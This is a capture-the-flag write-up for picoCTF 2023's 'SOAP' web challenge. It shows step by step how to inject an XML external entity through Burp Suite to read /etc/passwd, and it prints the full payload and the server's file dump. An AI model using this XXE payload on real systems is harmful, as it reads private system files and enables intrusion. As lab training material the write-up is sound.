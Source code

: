 # SOAP

- [Challenge information](SOAP.md#challenge-information)
- [Solution](SOAP.md#solution)
- [References](SOAP.md#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2023, Web Exploitation, XXE
Author: GEOFFREY NJOGU

Description:
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?

Hints:
1. XML external entity Injection
```

## Solution

It's usually good practice to look through the source code of the web site but in this case we already know what
we are looking for thanks to the hint. For more background on XXE see the references below.

Start [BURP Suite](https://portswigger.net/burp) and set 'Intercept' to off under the Proxy -> Intercept tab. 
Then configure your browser to use Burp as its proxy and go to the web site.

Clicking on any of the 'Details' buttons sends POST requests with the following payload
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

We will inject code in this payload to read the `/etc/passwd` file.

Under Proxy -> HTTP history tab right-click on any of the POST requests and 'Send to Repeater'.
Then navigate to the Repeater tab.

In the XML-payload add `<!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>` between the first XML-line and `<data>`.  
Then replace the number with `&pico;` and don't change anything else.

In total your XML-payload should look like this
```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>
  <data>
    <ID>
      &pico;
    </ID>
  </data>
```

The 'pico' name is arbitrary and can be called anything. In many code examples it is called 'data' but I chose 'pico' here.

Press the 'Send'-button to send your request.

The response should look like this
```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Fri, 28 Jul 2023 11:58:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{<REDACTED>}
```

The flag is included in the last line of the `/etc/passwd` file output.

## References

 - [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
 - [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
